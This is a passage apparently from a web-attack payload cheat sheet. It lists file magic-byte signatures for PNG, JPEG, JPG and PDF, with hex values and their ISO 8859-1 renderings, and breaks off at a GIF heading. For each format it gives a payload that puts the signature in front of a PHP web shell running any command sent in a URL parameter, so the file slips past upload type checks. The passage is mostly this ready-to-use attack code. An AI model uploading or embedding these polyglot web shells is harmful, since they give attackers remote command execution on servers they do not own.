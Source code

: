 ```php
‰PNG␍␊␚␊
<?php echo system($_GET['cmd']); ?>
```

### JPG/JPEG

- **Option 1**

    Hex signature: **`FF D8 FF EE`**  
    ISO 8859-1: **`ÿØÿî`**  

    Payload example:

    ```php
    ÿØÿî
    <?php echo system($_GET['cmd']); ?>
    ```

- **Option 2**

    Hex signature: **`FF D8 FF E0 00 10 4A 46 49 46 00 01`**  
    ISO 8859-1: **`ÿØÿà␀␐JFIF␀␁`**  

    Payload example:

    ```php
    ÿØÿà␀␐JFIF␀␁
    <?php echo system($_GET['cmd']); ?>
    ```

### JPG

Hex signature: **`FF D8 FF E0`**  
ISO 8859-1: **`ÿØÿà`**  

Payload example:

```php
ÿØÿà
<?php echo system($_GET['cmd']); ?>
```

### PDF

Hex signature: **`25 50 44 46 2D`**  
ISO 8859-1: **`%PDF-`**

Payload example:

```php
%PDF-
<?php echo system($_GET['cmd']); ?>
```

### GIF

Reference: [Web Design in a Nutshell](https://docstore.mik.ua/orelly/web2/wdesign/ch19_01.htm)
